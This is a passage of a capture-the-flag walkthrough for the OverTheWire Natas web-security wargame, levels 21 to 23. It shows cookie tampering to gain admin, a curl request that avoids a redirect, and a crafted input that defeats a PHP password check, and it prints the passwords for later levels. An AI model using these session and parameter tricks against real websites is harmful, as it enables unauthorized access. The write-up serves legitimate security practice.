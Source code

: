 ### Level 21

```
Visit http://natas21-experimenter.natas.labs.overthewire.org/ with same credentials too. Now, adding admin=1 in the cookie with the same PHPSESSID should result in effecting the previous session.

You are an admin. The credentials for the next level are:

Username: natas22
Password: chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ
```

### Level 22

Adding `?revelio=1` means array exist so it should give me admin credentials, however it seems I am being redirected or some sort. Using curl can stop this.

```
root@kali:~# curl http://natas22:chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ@natas22.natas.labs.overthewire.org/?revelio=1


<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas22", "pass": "chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ" };</script></head>
<body>
<h1>natas22</h1>
<div id="content">

You are an admin. The credentials for the next level are:<br><pre>Username: natas23
Password: D0vlad33nQF0Hz2EP255TP5wSW9ZsRSE</pre>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

### Level 23

From the source, strstr() seperates at iloveyou and the leftside is taken, if not indicated. We also need to satisfy ($_REQUEST["passwd"] > 10 ) which if we put a number, e.g. 11>10

```
11iloveyou
The credentials for the next level are:

Username: natas24 Password: OsRmXFguozKpTZZ5X14zNO43379LZveg
```
